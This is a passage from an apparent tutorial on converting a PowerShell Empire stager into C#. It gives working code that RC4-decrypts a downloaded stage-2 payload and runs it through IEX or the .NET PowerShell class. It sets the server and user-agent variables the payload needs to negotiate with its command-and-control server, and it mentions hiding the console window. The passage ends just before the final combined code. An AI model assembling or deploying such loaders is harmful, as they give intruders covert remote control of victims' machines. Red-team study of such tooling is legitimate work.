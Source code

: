 The last part is responsible for joining everything together. We can divide the Join in 2 pieces, the 1st one is the RC4 decryption part which use the $R minimization script, the data as argument and the combination of the IV + K as the decrypt value. You can execute  **& $R $data ($IV+$K)** alone so you can see the RC4 in action, and then Join all to finally Invoke-Execution (IEX).

```
//PowerShell Code
-Join[Char[]](& $R $data ($IV+$K))|IEX
 
// C# Code
// Combine the IV + Key (New random key each time)
byte[] IVK = new byte[iv.Length + K.Length];
iv.CopyTo(IVK, 0);
K.CopyTo(IVK, iv.Length);
 
// Decrypt the Message
byte[] decrypted = RC4.Decrypt(IVK, data_noIV);
 
// Convert the stage2 decrypted message from bytes to ASCII
string stage2 = System.Text.Encoding.ASCII.GetString(decrypted);
```

# C# Execution
 
To execute code in C# we can use the PowerShell class or the RunSpace and Pipeline classes, this is because the stage 2 payload is in PowerShell. We'll use PowerShell class because for some reasons RunSpace and Pipeline classes didn't work for me. In PowerShell we execute using Invoke-Execution or IEX.

```
// Create a PowerShell Object to execute the command 
PowerShell PowerShellInstance = PowerShell.Create();
 
// Add the Script Stage 2 to the Powershell Object
PowerShellInstance.AddScript(stage2);
 
// Execute the Script!
PowerShellInstance.Invoke();
```

Before we use the Invoke() method, we need to add two variables to the equation, those are $ser and $u. If you look at the stage2 string, you'll notice that it executes a function call for **Start-Negotiate -s "$ser" -SK 'REPLACE_STAGING_KEY' -UA $u** so, we need to pass the $ser and $u variables to get execution, otherwise we would get an error.

```
// Create the variables $ser and $u which are part of the downloaded stage2
PowerShellInstance.Runspace.SessionStateProxy.SetVariable("ser", server);
PowerShellInstance.Runspace.SessionStateProxy.SetVariable("u", ua);
```

Finally, I added some extra functions to hide the cmd window, you will find information about then in the comments. Now let's put the C# code all together and execute our C# empire payload. The final code should look like:
